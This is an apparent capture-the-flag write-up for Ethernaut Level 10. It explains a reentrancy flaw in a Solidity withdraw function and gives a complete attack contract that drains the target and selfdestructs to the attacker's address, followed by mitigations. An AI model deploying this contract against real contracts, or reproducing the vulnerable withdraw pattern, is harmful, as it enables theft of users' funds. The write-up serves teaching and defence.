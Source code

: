 ```yaml
---
title: Level 10 - Reentrancy
slug: level-10
published: 05-21-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut10.svg
---
```


## Objectives

1. Steal all of the funds of the contract.

## Vulnerabilities

### Reentrancy

The `withdraw` function has a **reentrancy** vulnerability. It changes the `msg.sender`'s balance only **after** sending the value which opens the door to
**reentrancy attacks**.

```solidity
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

## Exploit

1. Write and deploy a hack contract with your own _EOA_ as value for myAddress like the following:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "./Reentrance.sol";

contract ReentranceHack {
    Reentrance target;

    address myAddress = 0xcC5065Fa8f55F6929E1fA52E1ee6911F12C54a7F;

    event Log(string, uint);

    constructor(address payable _targetAddress) public {
        target = Reentrance(_targetAddress);
    }

    function hack() external payable {
        target.donate{value: msg.value}(address(this));
        uint amount = target.balanceOf(address(this));
        target.withdraw(amount);
    }

    receive() external payable {
        emit Log("received ", msg.value);
        uint targetAmount = address(target).balance;
        uint myAmount = target.balanceOf(address(this));

        if(targetAmount > 0){
            target.withdraw(targetAmount <= myAmount ? targetAmount : myAmount);
        } else {
            selfdestruct(myAddress);
        }
    }
}
```

2. Call the `hack` function. If all goes as planned, the target contract should be emptied from it's funds and
   the hack contract should have selfdestructed and sent the balance to your EOA.

## Suggested mitigation

- First and foremost, modify `withdraw` function to follow the **checks effects interaction** patttern. It would
  look something like the following:

```solidity
function withdraw(uint _amount) public {
  // Checks
  require(balances[msg.sender] >= _amount, "Insufficient balance");

  //Effects
    balances[msg.sender] -= _amount;

  //Interactions
  (bool result,) = msg.sender.call{value:_amount}("");
  require(result, "Transfer failed");
}
```

- Implement ReentrancyGuard by OpenZeppelin.

## Further reading

- The Checks Effect Interactions pattern. <ExternalLink href={"https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern"} />
- Reentrancy guard by OpenZeppelin <ExternalLink href={"https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard"} />
